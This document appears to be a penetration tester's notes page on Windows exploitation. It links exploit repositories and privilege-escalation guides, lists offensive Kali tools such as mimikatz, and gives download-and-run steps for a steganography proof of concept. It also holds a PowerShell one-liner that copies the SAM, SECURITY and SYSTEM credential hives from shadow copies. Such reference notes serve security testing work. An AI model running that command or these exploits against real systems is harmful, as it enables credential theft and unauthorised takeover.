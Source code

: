 # Living Off the Land:
https://lolbas-project.github.io/

# Windows Exploits:
1. Windows Kernel Exploits — https://github.com/SecWiki/windows-kernel-exploits
2. LOLBins - https://lolbas-project.github.io/#
3. Windows Takeover completely from Linux — https://www.sprocketsecurity.com/blog/the-ultimate-tag-team-petitpotam-and-adcs-pwnage-from-linux
4. Windows Credentials — https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them
5. Microsoft Won't Fix List — https://github.com/cfalta/MicrosoftWontFixList/blob/main/README.md
6. https://github.com/GossiTheDog/HiveNightmare
7. https://github.com/GossiTheDog/SystemNightmare
8. https://github.com/leechristensen/SpoolSample
9. https://github.com/topotam/PetitPotam
10. https://github.com/antonioCoco/RemotePotato0
11. https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH
12. https://github.com/cube0x0/CVE-2021-1675
13. maps Windows APIs to common techniques used by malware - https://malapi.io/

### HiveNightmare Powershell One Liner:
https://twitter.com/splinter_code/status/1420546784250769408
```
powershell -c "foreach ($i in 1..10){$p='\\.\HarddiskVolumeShadowCopy{0}\windows\system32\config\' -f $i; gi $($p+'SAM'),$($p+'SECURITY'),$($p+'SYSTEM') -ErrorAction SilentlyContinue | % {cp $_.FullName $($_.BaseName+$i)}}"
```



### System Nightmare Incognito 
Install Packages if Needed.
```
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade Pillow
or
python -m pip install --upgrade pip
python -m pip install --upgrade Pillow
Install Bitstring
python3 -m pip install --upgrade bitstring
```
Download: 
1. https://raw.githubusercontent.com/ciwen3/Public/master/python/steganography/Steganograpy-PoC.py
2. https://github.com/ciwen3/Public/raw/master/python/steganography/resources/rednightmare.PNG

In CMD run:
```
python ./Steganograpy-Poc.py ./rednightmare.PNG
```
Alternate:
download the exe (might get flagged as malicious)
https://github.com/ciwen3/Public/blob/master/python/steganography/Steganograpy-PoC.exe?raw=true

# Windows AD take over completely from Linux:
https://www.sprocketsecurity.com/blog/the-ultimate-tag-team-petitpotam-and-adcs-pwnage-from-linux

# Windows Login Credentials:
https://www.alteredsecurity.com/post/fantastic-windows-logon-types-and-where-to-find-credentials-in-them

# Checklist:
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

# Windows Privilege Escalation:
https://www.fuzzysecurity.com/tutorials/16.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html


# Find Windows 10 Product Key on a New Computer:
```
wmic path SoftwareLicensingService get OA3xOriginalProductKey
```

# Windows Resources in Kali:
```
/usr/share/windows-resources$ ls

binaries  
hyperion  
mimikatz  
ncat      
nishang  
ollydbg  
powersploit  
sbd          
sqldict  
tftpd32
wce
```
